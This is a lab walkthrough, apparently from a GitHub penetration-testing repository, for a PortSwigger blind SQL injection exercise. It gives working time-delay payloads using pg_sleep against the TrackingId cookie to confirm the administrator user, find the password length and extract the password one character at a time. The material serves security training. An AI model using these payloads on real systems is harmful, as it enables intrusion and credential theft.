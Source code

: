 
# Hi hackers, Today we will play this [LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)


This our WEBSITE
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/afadf641-fa00-4849-a8b4-31122c5fda8c)

Let's go to burp tool

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/3ebf9ed5-c532-4f62-8aa8-35e9dc56ac1a)

```TrackingId=``` is vulnerable parameter.

This lab base on time delays , so we try this payload :

```'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END--```

![ezgif-1-da1900c2ff](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/de71e58b-cf45-4a07-8fbd-55e8253601a4)

WOow we got it !

we need to check from username is administrator we use this payload:

```'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--```

![ezgif-1-0913de0f0e](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0014dd86-7ce1-4a3a-8151-04c065a61b56)

Woow now we know username is administrator but don't know the password 

### Let's go to know this, in first we need know length of password we will use this payload:

```'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>10)+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users--```

![ezgif-1-2ee66f5ff7](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/4ef68bb6-502f-4d78-aec6-3744df1502ed)

Now We know that password of ```20 char```


### Ok great, Let's go to hack this password :) use this payload:

```'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users--```

[Screencast from 2024-07-04 03:04:58 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/920e70f5-cac2-44d5-9f7b-d15101f1900d)

Good we will try again and again to discover 20 char

WOOW we can crack this password

















